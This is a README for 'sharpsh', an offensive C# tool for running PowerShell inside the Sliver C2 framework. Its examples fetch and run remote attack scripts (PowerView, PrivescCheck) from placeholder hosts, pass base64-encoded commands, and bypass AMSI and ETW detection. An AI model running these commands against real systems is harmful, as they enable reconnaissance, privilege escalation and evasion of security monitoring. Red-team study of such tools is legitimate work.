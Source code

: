 # sharpsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution. Built for use with `execute-assembly -E -M -i ...` in [BishopFox/Sliver](https://github.com/bishopfox/sliver).

## Features
- Execute Powershell commands
- Load & execute remote script
- Multiple command & script support
- Encoded command support
- Load & execute script from clipboard

## Usage

```
sharpsh 1.0.0.0
Copyright c  2022

  -c, --cmd          Required. Powershell command to run

  -u, --uri          Fetch script from URI

  -p, --clipboard    Fetch script from clipboard

  -e, --encoded      Encodeded command (base64)

  --help             Display this help screen.

  --version          Display version information.
```

## Examples

```
# execute powershell command
PS > .\sharpsh.exe -c whoami

# execute base64 encoded powershell command
PS > .\sharpsh.exe -e -c d2hvYW1pCg==

# load script from clipboard and execute command
PS > .\sharpsh.exe -p -c Get-NetLocalGroup

# load remote script and execute
PS > .\sharpsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# load remote script and execute encoded command
PS > .\sharpsh.exe -u http://x.x.x.x/PowerView.ps1 -e -c R2V0LU5ldExvY2FsR3JvdXAK

# execute multiple powershell commands
PS > .\sharpsh.exe -c hostname,whoami

# execute multiple powershell commands using multiple scripts
PS > .\sharpsh.exe -c get-netlocalgroup,invoke-privesccheck -u http://x.x.x.x/PowerView.ps1,http://x.x.x.x/PrivescCheck.ps1 -b

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/sharpsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Compression & encryption support for scripts


## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.

The project uses [`dnMerge`](https://github.com/CCob/dnMerge) so it has to be compiled in `Release` mode.